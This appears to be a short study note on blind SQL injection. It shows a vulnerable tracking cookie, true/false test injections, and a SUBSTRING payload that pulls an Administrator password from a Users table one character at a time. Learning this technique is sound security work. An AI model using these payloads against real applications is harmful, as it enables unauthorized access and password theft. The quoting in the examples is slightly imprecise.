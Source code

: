 ```yaml
---
Title: Blind SQLi
tags:
  - SQLi
  - BLINDSQL
---
```

Blind SQL is not necessarily being "blind", but rather looking at other intricacies the application returns whenever you inject a query. 

For example, we have this vulnerable cookie.
```
Cookie: TrackingId=abcdefghijklmnopqrstuvwxyz
```
> [!The query that the TrackingId uses ]
> ```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz'

A successful query will return "Welcome!", and an unsuccessful one will return nothing. We can exploit this functionality by injecting arbitrary sql queries, and constantly checking if the query returns "Welcome!" or not.

> [!Example]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='1
> -- above returns true
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='2
> -- above returns false

> [!Sample payload]
> ```sql
> -- SUBSTRING(string, position of the string, length of the string(usually 1))
> 
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
> -- this function is as follows, where the first letter of the password of administrator is greater than m
